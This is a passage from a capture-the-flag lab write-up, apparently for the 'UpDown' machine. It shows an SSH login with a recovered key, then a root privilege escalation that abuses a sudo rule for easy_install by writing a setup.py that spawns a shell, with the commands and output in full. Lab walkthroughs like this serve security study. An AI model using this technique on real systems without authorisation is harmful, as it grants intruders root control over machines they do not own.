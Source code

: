 ```bash
$ ssh -i dev.key developer@10.10.11.177
```

And now we have a shell as `developer` and can read `user.txt`!

## Privesc to Root

We can check our `sudo` permissions:

```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

We have `sudo` permissions to run `easy_install`. We can use[ GTFOBins to find an easy sudo privesc for `easy_install`](https://gtfobins.github.io/gtfobins/easy\_install/):

```
developer@updown:~$ cd /tmp/
developer@updown:/tmp$ TF=$(mktemp -d)
developer@updown:/tmp$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:/tmp$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.uxu7JoSg3E
Writing /tmp/tmp.uxu7JoSg3E/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.uxu7JoSg3E/egg-dist-tmp-SX0ArL
# whoami 
root
```

And from there we easily read `root.txt`.
